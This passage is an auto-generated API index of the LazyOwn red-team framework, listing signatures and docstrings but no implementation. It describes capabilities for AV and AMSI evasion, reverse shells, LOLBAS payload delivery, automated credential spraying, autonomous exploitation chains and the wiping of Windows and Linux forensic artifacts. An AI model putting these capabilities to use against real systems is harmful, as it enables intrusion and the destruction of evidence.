- `_pick_uri_pool` (line 209) `def _pick_uri_pool(self)`
- `_generate_cert_fingerprint` (line 217) `def _generate_cert_fingerprint(self)`
- `_compute_jitter` (line 220) `def _compute_jitter(self)`
- `_compute_sleep` (line 224) `def _compute_sleep(self)`
- `_get_domain_front` (line 232) `def _get_domain_front(self)`
- `generate_profile` (line 244) `def generate_profile(self, os_family)`
- `rotate_profile` (line 264) `def rotate_profile(self, os_family)`
- `get_active_profile` (line 269) `def get_active_profile(self)`
- `get_beacon_config` (line 272) `def get_beacon_config(self)`
- `morph_traffic` (line 287) `def morph_traffic(self, config)`
- `_persist_profile` (line 311) `def _persist_profile(self, profile)`
- `get_history` (line 328) `def get_history(self)`
- `profile_to_json` (line 343) `def profile_to_json(self, profile)`

#### `evasive_payloads.py`
**Path:** `modules/evasive_payloads.py`
**File Doc:** *Advanced evasive payload generation with multiple obfuscation strategies.  Provides polymorphic payload generation that mutates on each invocation, making signature-based detection ineffective. Supports PowerShell AMSI bypass, JavaScript obfuscation, shellcode encoding chains, process injection variants, and LOLBAS execution paths.*

**Classes:**
- `EvasivePayloadGenerator` (line 18) `class EvasivePayloadGenerator` - *Generates detection-evading payloads with configurable obfuscation layers.*

**Methods:**
- `__init__` (line 84) `def __init__(self)`
- `_random_var` (line 87) `def _random_var(self, length)` - *Generate a random valid variable name.*
- `_random_string` (line 93) `def _random_string(self, length)` - *Generate a random ASCII string for junk data.*
- `_xor_encode` (line 97) `def _xor_encode(self, data, key)` - *XOR encode bytes with a single-byte key.*
- `_rot13` (line 102) `def _rot13(self, data)` - *Apply ROT13 substitution cipher.*
- `_gzip_compress` (line 114) `def _gzip_compress(self, data)` - *Compress data using zlib with gzip header.*
- `_apply_encoding_chain` (line 118) `def _apply_encoding_chain(self, data, chain)` - *Apply a chain of encoding transformations.

Returns the final encoded bytes and metadata for decoder generation.*
- `generate_powershell_obfuscated` (line 138) `def generate_powershell_obfuscated(self, payload, obfuscation_level)` - *Generate an obfuscated PowerShell payload.

Args:
    payload: The raw PowerShell command to obfuscate.
    obfuscation_level: 1=minimal, 2=moderate, 3=heavy.

Returns:
    A heavily obfuscated PowerShell one-liner.*
- `generate_javascript_obfuscated` (line 178) `def generate_javascript_obfuscated(self, payload)` - *Generate an obfuscated JavaScript payload.

Args:
    payload: Raw JavaScript to obfuscate.

Returns:
    Obfuscated JavaScript using eval with char code reconstruction.*
- `generate_vba_obfuscated` (line 197) `def generate_vba_obfuscated(self, payload)` - *Generate an obfuscated VBA macro payload.

Args:
    payload: Raw VBA code to obfuscate.

Returns:
    Obfuscated VBA using Chr() function reconstruction.*
- `generate_linux_evasive` (line 214) `def generate_linux_evasive(self, rhost, rport, technique)` - *Generate an evasive Linux reverse shell payload.

Args:
    rhost: Remote host IP.
    rport: Remote port.
    technique: Shell type (python, bash, or node).

Returns:
    Base64-encoded evasive payload ready for execution.*
- `generate_shellcode_loader_powershell` (line 239) `def generate_shellcode_loader_powershell(self, shellcode_b64, injection_technique)` - *Generate a PowerShell shellcode loader with AMSI bypass.

Args:
    shellcode_b64: Base64-encoded shellcode.
    injection_technique: Process injection technique to embed.

Returns:
    Complete obfuscated PowerShell loader.*
- `generate_lolbas_execution` (line 284) `def generate_lolbas_execution(self, payload_url, technique)` - *Generate a LOLBAS-based payload execution command.

Uses legitimate Windows binaries for execution to bypass
application allowlisting.

Args:
    payload_url: URL hosting the payload.
    technique: LOLBAS binary to use.

Returns:
    Tuple of (command, description).*
- `generate_polymorphic_command` (line 334) `def generate_polymorphic_command(self, base_cmd, iterations)` - *Generate a polymorphic command that mutates at each execution.

Inserts random no-op commands, variable renames, and padding
to defeat signature-based detection.

Args:
    base_cmd: The base command to obfuscate.
    iterations: Number of obfuscation passes.

Returns:
    A polymorphic command that produces the same effect.*
- `list_techniques` (line 374) `def list_techniques(self)` - *Return all available evasion techniques.*

#### `event_bus.py`
**Path:** `modules/event_bus.py`
**File Doc:** *UnifiedEventBus — central nervous system connecting all LazyOwn components.  Replaces the fragmented event systems (collab_bp.EventBus, engagement_hooks, event_engine) with a single typed pub/sub bus that CLI, C2, MCP, autonomous agents, and bridges all share.  Design (SOLID) -------------- - Single Responsibility : UnifiedEventBus owns only event routing + persistence. - Open/Closed           : new event types/categories added without modifying bus. - Liskov                : all subscribers honour Callable[[LazyEvent], None]. - Interface Segregation : subscribe/unsubscribe/publish are the only surface. - Dependency Inversion  : bus depends on abstract Sink, not concrete backends.  Thread-safe. Async-compatible. Worker-based dispatch with backpressure via a bounded queue. Persists to sessions/events.jsonl.*

**Classes:**
- `EventCategory` (line 47) `class EventCategory(str, Enum)`
- `EventSeverity` (line 73) `class EventSeverity(str, Enum)`
- `LazyEvent` (line 82) `class LazyEvent` - *Universal event envelope for all LazyOwn components.*
- `Sink` (line 133) `class Sink(ABC)` - *Abstract sink for persisting or forwarding events.*
- `JsonlSink` (line 143) `class JsonlSink(Sink)` - *Persists events to sessions/events.jsonl (append-only).*
- `CollabBusSink` (line 163) `class CollabBusSink(Sink)` - *Forwards LazyEvents to the existing collab_bp.EventBus for SSE streaming.*
- `EngagementSink` (line 202) `class EngagementSink(Sink)` - *Forwards LazyEvents to the engagement_hooks narrator.*
- `UnifiedEventBus` (line 230) `class UnifiedEventBus` - *Central event bus for all LazyOwn components.

Events are queued on a bounded ``queue.Queue`` (backpressure) and
dispatched by a dedicated worker thread. This decouples publish()
latency from subscriber execution speed and provides natural
backpressure when subscribers fall behind.

Usage::

    bus = get_event_bus()
    bus.subscribe("my_module", lambda ev: print(ev.event_type))
    bus.publish(LazyEvent(
        category=EventCategory.RECON,
        event_type="scan_complete",
        source="lazynmap",
        payload={"host": "10.0.0.1", "ports": [22, 80, 445]},
    ))*

**Functions:**
- `get_event_bus` (line 570) `def get_event_bus()` - *Return the singleton UnifiedEventBus instance.*
- `publish_event` (line 575) `def publish_event(category, event_type, source, payload, severity, target, operator)` - *Convenience function to build and publish an event in one call.*

**Methods:**
- `to_dict` (line 96) `def to_dict(self)`
- `to_json` (line 111) `def to_json(self)`
- `from_dict` (line 115) `def from_dict(cls, d)`
- `write` (line 137) `def write(self, event)`
- `close` (line 140) `def close(self)`
- `__init__` (line 146) `def __init__(self, filepath)`
- `write` (line 151) `def write(self, event)`
- `close` (line 159) `def close(self)`
- `__init__` (line 166) `def __init__(self)`
- `_bus` (line 170) `def _bus(self)`
- `write` (line 181) `def write(self, event)`
- `close` (line 198) `def close(self)`
- `write` (line 205) `def write(self, event)`
- `close` (line 226) `def close(self)`
- `__init__` (line 255) `def __init__(self)`
- `_init_sinks` (line 273) `def _init_sinks(self)`
- `instance` (line 287) `def instance(cls)`
- `subscriber_count` (line 295) `def subscriber_count(self)` - *Return the number of active subscribers across all registration types.*
- `subscribe` (line 300) `def subscribe(self, subscriber_id, callback)` - *Register a callback for all events.*
- `subscribe_topic` (line 305) `def subscribe_topic(self, subscriber_id, topic, callback)` - *Register a callback for events matching a topic.

Topics are dotted strings like 'recon.nmap' or 'beacon.*'.
Wildcards: '*' matches any single segment, '**' matches everything.*
- `subscribe_async` (line 315) `def subscribe_async(self, subscriber_id)` - *Get a Queue for async event consumption (for SSE, WebSocket, etc.).*
- `unsubscribe` (line 327) `def unsubscribe(self, subscriber_id)` - *Remove all subscriptions for a subscriber.*
- `publish` (line 336) `def publish(self, event)` - *Publish an event via the bounded dispatch queue.

Appends to history immediately. The event is then placed on the
internal dispatch queue for worker-thread delivery to subscribers
and sinks.  When the queue is full this call blocks, providing
natural backpressure.

Args:
    event: The event to publish.*
- `drain` (line 354) `def drain(self)` - *Consume and drop all pending events from the dispatch queue.

Already-delivered events that were dispatched before the drain
call are not affected.  History is preserved so post-drain
queries can still see what was published.*
- `shutdown` (line 372) `def shutdown(self)` - *Shut down the event bus cleanly.

1. Marks the bus as stopped.
2. Sends a shutdown sentinel through the dispatch queue so the
   worker thread can notify all subscribers and exit.
3. Joins the worker thread (with a timeout).
4. Closes all sinks and clears subscriber registrations.

Thread-safe. Idempotent.*
- `_dispatch_loop` (line 416) `def _dispatch_loop(self)` - *Worker loop consuming events from ``_dispatch_queue``.

Processes events one at a time, delivering to all subscribers,
topic subscribers, async queues, and sinks. Stops when the
shutdown sentinel is received or ``_running`` becomes ``False``.*
- `_dispatch_event` (line 441) `def _dispatch_event(self, event)` - *Deliver a single event to every registered consumer.*
- `_notify_shutdown` (line 479) `def _notify_shutdown(self)` - *Notify all subscribers that the bus is shutting down.*
- `_match_topic` (line 517) `def _match_topic(self, topic, event)` - *Match a dotted topic pattern against an event.

The event's topic is '{category.value}.{event_type}'.
Supports '*' (single segment) and '**' (any depth) wildcards.*
- `history` (line 556) `def history(self, n, category)` - *Return recent events, optionally filtered by category.*
- `history_since` (line 564) `def history_since(self, since_ts)` - *Return all events since a given timestamp.*

#### `event_consumers.py`
**Path:** `modules/event_consumers.py`
**File Doc:** *Event Consumers — reactive layer that makes EventBus events drive real actions.  These subscribers turn the EventBus from a passive log into an active nervous system. Each consumer listens for specific event patterns and triggers concrete framework actions without any component needing to know about others.  Consumers: - PhaseTracker      : advances host states, updates world_model.json on scan/enum events - AutoRecommender   : injects "recommend next" objectives after scans complete - CredentialReactor : auto-triggers credential spraying when creds are found - SoulSync          : keeps sessions/soul.md in sync with campaign phase/state - DashboardPusher   : pushes events to collab_bus SSE + session_state.json  All consumers are self-registering — call ``wire_all_consumers()`` once at boot.*

**Classes:**
- `PhaseTracker` (line 146) `class PhaseTracker` - *Advances host states and updates world_model.json based on scan/enum events.

State machine:
    command like lazynmap   → host state "scanned"
    service_added            → host state "enumerated" (if services present)
    vulnerability_added      → host state "exploited" (if vulns present)
    credential_added         → host state "owned"*
- `AutoRecommender` (line 201) `class AutoRecommender` - *Injects objectives when significant events happen (scan done, vuln found, etc.).*
- `CredentialReactor` (line 272) `class CredentialReactor` - *Detects credential patterns in command output and auto-captures them.*
- `SoulSync` (line 320) `class SoulSync` - *Keeps sessions/soul.md in sync with campaign state from events.*
- `DashboardPusher` (line 358) `class DashboardPusher` - *Refreshes session_state.json and pushes to collab_bus on every event.*

**Functions:**
- `_load_payload` (line 43) `def _load_payload()`
- `_inject_objective` (line 54) `def _inject_objective(text, priority, source)` - *Append an objective to objectives.jsonl.*
- `_update_world_model_host` (line 72) `def _update_world_model_host(address, state, services)` - *Update or create a host entry in world_model.json.*
- `_update_soul` (line 110) `def _update_soul(phase, credentials, access)` - *Update sections of sessions/soul.md.*
- `wire_all_consumers` (line 380) `def wire_all_consumers(bus)` - *Register all event consumers on the UnifiedEventBus.

Args:
    bus: Optional UnifiedEventBus instance. Uses singleton if None.

Returns:
    Number of consumers registered.*
- `unwire_all_consumers` (line 409) `def unwire_all_consumers(bus)` - *Remove all event consumers from the bus.*

**Methods:**
- `__init__` (line 156) `def __init__(self)`
- `__call__` (line 159) `def __call__(self, event)`
- `__init__` (line 204) `def __init__(self)`
- `__call__` (line 207) `def __call__(self, event)`
- `__call__` (line 282) `def __call__(self, event)`
- `__call__` (line 323) `def __call__(self, event)`
- `__call__` (line 361) `def __call__(self, event)`

#### `event_engine.py`
**Path:** `modules/event_engine.py`
**File Doc:** *LazyOwn Event Engine ==================== Tails sessions/LazyOwn_session_report.csv for new command executions, matches them against rules in sessions/event_rules.json, and appends structured events to sessions/events.jsonl for Claude (MCP) to consume.  Designed to run as a lightweight background loop (see skills/heartbeat.py).*

**Functions:**
- `load_rules` (line 99) `def load_rules()` - *Load rules from event_rules.json, creating it with defaults if missing.*
- `save_rules` (line 110) `def save_rules(rules)`
- `add_rule` (line 114) `def add_rule(rule)` - *Add or replace a rule by id. Returns 'added' or 'updated'.*
- `_read_watermark` (line 130) `def _read_watermark()`
- `_write_watermark` (line 137) `def _write_watermark(offset)`
- `_row_matches` (line 144) `def _row_matches(row, trigger)`
- `_append_event` (line 173) `def _append_event(event)`
- `process_new_rows` (line 181) `def process_new_rows()` - *Read new rows from the session CSV since last watermark.
Match against rules and emit events to events.jsonl.
Returns the number of events emitted.*
- `read_events` (line 250) `def read_events(limit, status)` - *Return up to `limit` events matching `status` (pending/processed/all).*
- `ack_event` (line 270) `def ack_event(event_id)` - *Mark an event as processed. Returns True if found.*

#### `evidence.py`
**Path:** `modules/evidence.py`
**File Doc:** *Content-addressed evidence vault independent of disposable traffic.  Ports the LAZY ``evidence`` subsystem: finding evidence is hashed with SHA-256, written atomically via a staging directory, verified on read, and garbage-collected when unreferenced past a grace period.*

**Classes:**
- `EvidenceConfig` (line 20) `class EvidenceConfig` - *Centralized constants for vault behavior.*
- `EvidenceStore` (line 54) `class EvidenceStore` - *Durable content-addressed blob store for finding evidence.*

**Functions:**
- `hash_bytes` (line 37) `def hash_bytes(data)` - *Return the lowercase hex SHA-256 of data.*
- `_validate_hash` (line 42) `def _validate_hash(value)` - *Validate a SHA-256 hex digest and return it normalized.*

**Methods:**
- `__init__` (line 57) `def __init__(self, base_dir)` - *Create vault directories.*
- `blob_path` (line 65) `def blob_path(self, content_hash)` - *Resolve the canonical path for a validated hash.*
- `put` (line 70) `def put(self, data)` - *Atomically store bytes and return their SHA-256 hash.*
- `get` (line 90) `def get(self, content_hash)` - *Read and verify blob bytes for a hash.*
- `exists` (line 98) `def exists(self, content_hash)` - *Return True when the blob exists on disk.*
- `garbage_collect` (line 105) `def garbage_collect(self, referenced)` - *Remove unreferenced blobs older than the grace period.*

#### `exploit_chain.py`
**Path:** `modules/exploit_chain.py`
**File Doc:** *Autonomous exploitation chain engine.  Orchestrates the full kill chain from recon through exploitation to post-exploitation in a single automated workflow. Implements a decision-tree based approach with fallback strategies when initial exploitation attempts fail.  Phases: 1. Service fingerprinting 2. Vulnerability mapping 3. Exploit selection and prioritization 4. Payload generation and delivery 5. Session verification 6. Post-exploitation automation*

**Classes:**
- `ServiceInfo` (line 29) `class ServiceInfo` - *Fingerprinted service metadata.*
- `VulnerabilityMatch` (line 41) `class VulnerabilityMatch` - *A vulnerability matched to a discovered service.*
- `ExploitResult` (line 54) `class ExploitResult` - *Result of an exploitation attempt.*
- `ChainResult` (line 65) `class ChainResult` - *Complete exploitation chain result.*
- `ExploitChain` (line 289) `class ExploitChain` - *Autonomous exploitation chain orchestrator.*

**Functions:**
- `_compare_versions` (line 266) `def _compare_versions(version_a, version_b)` - *Compare two version strings.

Returns -1 if a < b, 0 if equal, 1 if a > b.*

**Methods:**
- `__init__` (line 292) `def __init__(self, rhost, rport, lhost, lport, sessions_dir, nmap_xml_path)`
- `fingerprint_services` (line 311) `def fingerprint_services(self, nmap_output)` - *Parse service information from all available nmap XML files.

Scans sessions/ for all scan_<rhost>*.nmap.xml and vulns_<rhost>*.nmap.xml
files, parses them with ElementTree, and merges results deduplicating
by port/protocol. Files with richer data (product+version) take priority.

Args:
    nmap_output: Raw nmap output text or None to use XML files.

Returns:
    List of fingerprinted services.*
- `_discover_xml_files` (line 331) `def _discover_xml_files(self)` - *Find all nmap XML files for the current rhost.*
- `_parse_all_nmap_xml` (line 346) `def _parse_all_nmap_xml(self)` - *Parse all available nmap XML files and merge results.*
- `_is_richer` (line 361) `def _is_richer(new_svc, existing)` - *Return True when new_svc has more information than existing.*
- `_parse_single_xml` (line 367) `def _parse_single_xml(self, xml_path)` - *Parse a single nmap XML file using ElementTree.

Args:
    xml_path: Path to the .nmap.xml file.

Returns:
    List of ServiceInfo objects for open ports.*
- `_parse_nmap_text` (line 404) `def _parse_nmap_text(self, output)` - *Parse nmap grepable/text output.*
- `map_vulnerabilities` (line 446) `def map_vulnerabilities(self)` - *Map discovered services to known vulnerabilities.

Returns:
    List of vulnerability matches sorted by severity.*
- `_add_vuln` (line 485) `def _add_vuln(self, service, sig, version)` - *Add a vulnerability match.*
- `generate_exploit_plan` (line 499) `def generate_exploit_plan(self)` - *Generate a prioritized exploitation plan.

Returns:
    Ordered list of exploitation steps with fallbacks.*
- `get_post_exploit_commands` (line 519) `def get_post_exploit_commands(self, platform)` - *Return recommended post-exploitation commands for the platform.

Args:
    platform: Target OS platform (linux or windows).

Returns:
    List of post-exploitation command suggestions.*
- `generate_report` (line 531) `def generate_report(self)` - *Generate a structured exploitation chain report.

Returns:
    Complete report dictionary with all chain data.*
- `save_report` (line 566) `def save_report(self, path)` - *Save the exploitation chain report to a file.

Args:
    path: Output file path. Defaults to sessions/exploit_chain_{rhost}.json.

Returns:
    Path to the saved report.*

#### `exploit_recommender.py`
**Path:** `modules/exploit_recommender.py`
**File Doc:** *AI-Powered Exploit Recommendation Engine for LazyOwn.  Queries NVD API for CVEs, matches against Exploit-DB, ranks exploits by reliability and impact, and auto-generates LazyOwn commands.  Integrates with WorldModel, module_registry, and lazyown_bridge.*

**Classes:**
- `ExploitMatch` (line 37) `class ExploitMatch`
- `ExploitRecommender` (line 50) `class ExploitRecommender` - *Matches discovered services against known CVEs and available exploits.

Attributes:
    world_model: Reference to the campaign WorldModel.
    exploitdb_index: In-memory cache of Exploit-DB CSV entries.
    cve_cache: In-memory cache of NVD CVE lookups keyed by CVE ID.
    sessions_dir: Directory for persisting recommendations.*

**Functions:**
- `parse_version` (line 25) `def parse_version(v)`

**Methods:**
- `__init__` (line 120) `def __init__(self, world_model)`
- `set_world_model` (line 129) `def set_world_model(self, world_model)`
- `set_nvd_api_key` (line 132) `def set_nvd_api_key(self, key)`
- `_load_exploitdb` (line 135) `def _load_exploitdb(self)`
- `_extract_cve_ids` (line 161) `def _extract_cve_ids(text)`
- `_compare_versions` (line 165) `def _compare_versions(version, max_vulnerable)`
- `_query_nvd` (line 175) `def _query_nvd(self, cve_id)`
- `_try_nvd` (line 211) `def _try_nvd(self, cve_id)`
- `_generate_lazyown_commands` (line 214) `def _generate_lazyown_commands(self, cve_id, service, host_ip)`
- `match_services` (line 244) `def match_services(self, hosts)` - *Match discovered services against known CVEs with confidence scoring.

Args:
    hosts: Optional dict of HostEntry objects. Uses world_model hosts if None.

Returns:
    List of ExploitMatch objects sorted by severity then confidence.*
- `recommend` (line 337) `def recommend(self, hosts, top_n)` - *Return top-N recommended exploits as structured dicts for MCP/CLI.

Args:
    hosts: Optional host dict override.
    top_n: Maximum number of recommendations to return.

Returns:
    List of recommendation dicts with keys: cve, severity, confidence,
    description, exploit_available, command, service, host, port.*
- `persist_recommendations` (line 370) `def persist_recommendations(self, matches)` - *Save recommendations to sessions/ for audit and replay.

Args:
    matches: List of recommendation dicts from recommend().

Returns:
    Path to the written JSON file.*
- `format_for_llm` (line 390) `def format_for_llm(self, matches, max_items)` - *Format recommendations as compact text for LLM context injection.

Args:
    matches: List of recommendation dicts.
    max_items: Maximum items to include in the context string.

Returns:
    A single string suitable for appending to an LLM system prompt.*

#### `exploitgym_gym.py`
**Path:** `modules/exploitgym_gym.py`
**File Doc:** *ExploitGym integration — real-world vulnerability-to-exploit benchmark.  Wraps the sunblaze-ucb/exploitgym harness (controller, firewall, LLM proxy, Docker task images) as an adaptive external backend for LazyOwn. LazyOwn detects whether the ExploitGym environment is installed and ready; when it is not, it only prints readiness guidance instead of breaking.  Task results feed the existing Red Team Gym ELO/leaderboard system in :mod:`modules.redteam_gym` so captured flags grant operator progression.  The harness is dual-use and MUST be run only against the containerised, network-isolated task environments that ExploitGym ships, never against arbitrary or production infrastructure.*

**Functions:**
- `_ensure_dir` (line 56) `def _ensure_dir()` - *Create the ExploitGym session and records directory if missing.*
- `_resolve_root` (line 61) `def _resolve_root(params)` - *Resolve the ExploitGym repository root from config or the default.

Args:
    params: LazyOwn payload dict, or ``None`` to use the default root.

Returns:
    Absolute path to the ExploitGym checkout.*
- `_read_task_ids` (line 75) `def _read_task_ids(root)` - *Read and clean the task id list from the ExploitGym data dir.

Args:
    root: ExploitGym repository root.

Returns:
    List of task identifiers, blank lines and comments removed.*
- `_detect_domain` (line 96) `def _detect_domain(task_id)` - *Heuristically assign a domain to a task id.

Args:
    task_id: ExploitGym task identifier.

Returns:
    One of ``userspace``, ``v8``, ``kernel`` or ``unknown``.*
- `check_readiness` (line 112) `def check_readiness(params)` - *Report whether the ExploitGym harness can run.

Detects the presence of the required external toolchain and secrets
without installing anything. Used by the adaptive wrapper so LazyOwn
degrades gracefully when ExploitGym is not set up.

Args:
    params: LazyOwn payload dict used to resolve paths and API keys.

Returns:
    Dict with a boolean ``ready`` flag plus per-item availability.*
- `list_tasks` (line 178) `def list_tasks(params, domain, limit)` - *List available ExploitGym tasks, optionally filtered by domain.

Args:
    params: LazyOwn payload dict used to resolve the repo root.
    domain: Optional domain filter (``userspace``, ``v8``, ``kernel``).
    limit: Maximum number of tasks to return.

Returns:
    List of dicts with ``id`` and ``domain`` keys.*
- `_run_streaming` (line 206) `def _run_streaming(cmd, cwd, timeout)` - *Run a command streaming stdout live to the console.

Args:
    cmd: Command argv to execute.
    cwd: Working directory for the subprocess.
    timeout: Maximum seconds before aborting.

Returns:
    The subprocess return code.*
- `_ensure_clone` (line 232) `def _ensure_clone(root, timeout)` - *Clone the ExploitGym repository when it is not present.

Args:
    root: Target checkout directory.
    timeout: Maximum seconds for the clone.

Returns:
    ``True`` if the repo is present (or was cloned) afterwards.*
- `setup_harness` (line 249) `def setup_harness(params, steps)` - *Automate ExploitGym installation (clone, deps, data, firewall, images).

Runs the full setup so the operator never has to copy manual commands:
``clone``, ``deps`` (uv sync), ``data`` (setup_data.sh), ``validate``,
``squid`` (docker pull the firewall image), and ``images`` (pull a sample
task image set). Each step streams its output live.

Args:
    params: LazyOwn payload dict used to resolve the repo root.
    steps: Subset of :data:`SETUP_STEPS` to run; default runs all.

Returns:
    Dict with ``success``, ``root``, and a per-step ``results`` mapping
    of step name to return code (``-1`` when skipped).*
- `_env_for_run` (line 315) `def _env_for_run(params)` - *Build the environment for running ExploitGym agents.

Merges the current environment with the controller secrets and LLM API
keys read from config so the subprocess can mint task tokens.

Args:
    params: LazyOwn payload dict with ExploitGym secrets.

Returns:
    Environment dict suitable for :func:`subprocess.run`.*
- `pull_task` (line 344) `def pull_task(task_id, params, timeout)` - *Pull the Docker image required by a task.

Args:
    task_id: ExploitGym task identifier.
    params: LazyOwn payload dict used to resolve the repo root.
    timeout: Maximum seconds to wait for the image pull.

Returns:
    Dict with ``success`` flag, ``task``, and ``output`` or ``error``.*
- `_run_agent` (line 378) `def _run_agent(task_id, model, mitigations, root, params, timeout)` - *Invoke the ExploitGym agent runner for a task.

Args:
    task_id: Task to run against.
    model: LLM model identifier to use.
    mitigations: Whether system defenses (ASLR, canaries) stay enabled.
    root: ExploitGym repo root.
    params: LazyOwn payload dict for secrets.
    timeout: Maximum seconds for the run.

Returns:
    The completed subprocess object.*
- `run_task` (line 423) `def run_task(task_id, params, model, mitigations, timeout)` - *Run the agent against an ExploitGym task and capture the outcome.

Writes the full harness output to ``sessions/exploitgym/<task>.log`` and
records the attempt metadata to ``records.json`` for later scoring.

Args:
    task_id: ExploitGym task identifier.
    params: LazyOwn payload dict (secrets, model default, repo root).
    model: LLM model to use; falls back to ``exploitgym_model`` config.
    mitigations: Keep system defenses enabled (default ``True``).
    timeout: Maximum seconds for the run.

Returns:
    Dict with ``success``, ``task``, ``log_path``, ``flag`` (when found),
    ``elapsed_seconds``, and ``output`` or ``error``.*
- `_extract_flag` (line 487) `def _extract_flag(output)` - *Extract a captured flag from harness output.

Args:
    output: Combined stdout/stderr of an agent run.

Returns:
    The captured flag value, or ``None`` when none is found.*
- `_load_records` (line 500) `def _load_records()` - *Load the persisted ExploitGym attempt records.

Returns:
    Dict keyed by task id with per-run metadata.*
- `_save_records` (line 514) `def _save_records(records)` - *Persist the ExploitGym attempt records to disk.

Args:
    records: Dict keyed by task id.*
- `_record` (line 523) `def _record(task_id, success, elapsed, flag)` - *Append an attempt to the persistent records file.

Args:
    task_id: Task identifier.
    success: Whether the run exited cleanly.
    elapsed: Run duration in seconds.
    flag: Captured flag, if any.*
- `verify_flag` (line 548) `def verify_flag(task_id, params)` - *Verify whether a task flag was captured from a previous run.

Args:
    task_id: Task identifier.
    params: LazyOwn payload dict (unused but kept for interface parity).

Returns:
    Dict with ``verified``, ``task``, and ``flag`` or ``error``.*
- `score_task` (line 565) `def score_task(task_id, success, techniques, params)` - *Award Red Team Gym ELO and leaderboard points for a task outcome.

Reuses the scoring pipeline in :mod:`modules.redteam_gym` so ExploitGym
results grant operator progression through the same karma system.

Args:
    task_id: Task identifier used as the leaderboard challenge id.
    success: Whether the flag was captured.
    techniques: Technique identifiers used during the run.
    params: LazyOwn payload dict (unused but kept for interface parity).

Returns:
    Dict from :func:`modules.redteam_gym.record_external_attempt`.*
- `_run` (line 274) `def _run(name, cmd, cwd, timeout)`

#### `finding_lifecycle.py`
**Path:** `modules/finding_lifecycle.py`
**File Doc:** *Finding confirmation lifecycle: pending -> confirmed / rejected.  Faithful to the CAIRN discipline (seed-add, seed validation, dead-end suppression list): a finding only becomes intel once it carries linked evidence. Anything else stays pending; disproven leads go to the dead-end list with a labeled reason instead of being silently dropped.  - explicit states persist in ``sessions/finding_lifecycle.json``; - ``resolve()`` layers explicit state over the automatic rule (2+ independent corroborating sources auto-confirm, like CAIRN's multi-signal confirmation), explicit reject always wins; - the campaign funnel counts only confirmed findings at its narrow end.  Stdlib only.*

**Classes:**
- `FindingRecord` (line 182) `class FindingRecord` - *One campaign finding as stored on a vuln row.*
- `RetestRecord` (line 195) `class RetestRecord` - *One retest request/attempt for a finding.*

**Functions:**
- `_store_path` (line 35) `def _store_path(sessions_dir)` - *Return the lifecycle store path for a sessions directory.*
- `_load` (line 40) `def _load(sessions_dir)` - *Load the store, tolerating missing or corrupt files.*
- `_save` (line 53) `def _save(sessions_dir, data)` - *Persist the store best-effort.*
- `confirm` (line 61) `def confirm(finding_id, evidence, sessions_dir, by)` - *Mark a finding confirmed with linked evidence (CAIRN seed-add).

Evidence mentioning a CVE id is auto-enriched with keyless OSINT
(OSV advisory, CISA KEV, EPSS score); enrichment never fails the call.*
- `reject` (line 90) `def reject(finding_id, reason, sessions_dir, by)` - *Mark a finding rejected (disproven lead, CAIRN dead-end discipline).*
- `add_dead_end` (line 104) `def add_dead_end(kind, value, reason, sessions_dir)` - *Suppress a value campaign-wide with a labeled reason (dead_end_hashes).*
- `is_dead_end` (line 116) `def is_dead_end(kind, value, sessions_dir)` - *Return True when a kind/value pair sits on the suppression list.*
- `suppressed_values` (line 123) `def suppressed_values(sessions_dir)` - *Return every suppressed value for text-level filtering by the loop.*
- `resolve` (line 129) `def resolve(node, sessions_dir)` - *Resolve a finding node's confirmation state.

Precedence: dead-end list and explicit reject beat everything;
explicit confirm beats the automatic multi-source rule; otherwise
2+ independent sources auto-confirm, single-source stays pending.
Non-finding nodes always resolve to pending.*
- `apply_confirmation` (line 154) `def apply_confirmation(nodes, sessions_dir)` - *Stamp ``confirmation``/``status`` on every finding node in place.*
- `_token_value` (line 205) `def _token_value(refs, prefix, default)` - *Read a ``prefix:value`` token from a refs string.*
- `_with_token` (line 213) `def _with_token(refs, prefix, value)` - *Replace or append a ``prefix:value`` token in a refs string.*
- `_finding_from_row` (line 220) `def _finding_from_row(row)` - *Build a FindingRecord from one vuln_list row.*
- `record` (line 234) `def record(db, workspace, host, title, severity, summary, poc)` - *Record a campaign finding on the DB for one host.

Args:
    db: Open :class:`modules.db.LazyOwnDB`.
    workspace: Workspace id the host belongs to.
    host: Host address (created on first use).
    title: Finding name.
    severity: Severity label.
    summary: Short description.
    poc: Optional proof-of-concept text appended to the description.

Returns:
    The stored :class:`FindingRecord` with its ``finding_id``.*
- `findings_for` (line 259) `def findings_for(db, workspace)` - *List campaign findings with parsed status markers.*
- `set_status` (line 264) `def set_status(db, finding_id, status)` - *Set the lifecycle status marker on one finding.

Args:
    db: Open campaign DB.
    finding_id: Vuln row id (string form).
    status: One of :data:`FINDING_STATUSES`.

Returns:
    True when the row existed and was updated.

Raises:
    ValueError: Unknown status.*
- `_retests_path` (line 287) `def _retests_path(sessions_dir)` - *Return the retest store path for a sessions directory.*
- `_load_retests` (line 292) `def _load_retests(sessions_dir)` - *Load the retest payload, tolerating a missing or corrupt file.*
- `_save_retests` (line 303) `def _save_retests(sessions_dir, payload)` - *Persist the retest payload.*
- `has_running_retest` (line 310) `def has_running_retest(finding_id, sessions_dir)` - *Return True while a retest for the finding is still running.*
- `request_retest` (line 318) `def request_retest(db, finding_id, sessions_dir)` - *Queue a retest; an already-running one is returned unchanged.*
- `resolve_retest` (line 338) `def resolve_retest(db, retest_id, conclusion, evidence, sessions_dir)` - *Close a retest, bump the evidence version and apply the verdict.

Args:
    db: Open campaign DB.
    retest_id: Retest to close.
    conclusion: One of :data:`RETEST_CONCLUSIONS`.
    evidence: Optional retest output/evidence snippet.
    sessions_dir: Sessions directory holding the retest store.

Returns:
    The resolved :class:`RetestRecord`.

Raises:
    ValueError: Unknown conclusion.
    KeyError: Unknown retest id.*
- `classify_retest` (line 384) `def classify_retest(needle, output)` - *Map retest output onto reproducible / fixed / inconclusive.

A vanished service or an explicit patch report means fixed; the
original marker still present means reproducible; everything else
(including errors and unrelated banners) stays inconclusive.*
- `render_markdown` (line 403) `def render_markdown(db, workspace, title)` - *Render campaign findings as a markdown report.*

#### `forensic_cleaner.py`
**Path:** `modules/forensic_cleaner.py`
**File Doc:** *Forensic artifact cleaner — Prefetch, Shimcache, Amcache, MFT/USN cleanup.  Removes evidence of execution from Windows forensic artifacts: Prefetch files (.pf), Shimcache (AppCompatCache), Amcache registry entries, MFT records, USN journal entries, Jump Lists, LNK files, and Recent documents. Covers both automated cleanup and manual operator-guided forensic wiping.  Linux/macOS equivalents cover bash history, syslog entries, atime modification, and unified log pruning.*

**Classes:**
- `ForensicCleanerConfig` (line 23) `class ForensicCleanerConfig` - *Configuration for forensic artifact cleaning.

Attributes:
    target_platform: windows, linux, or macos.
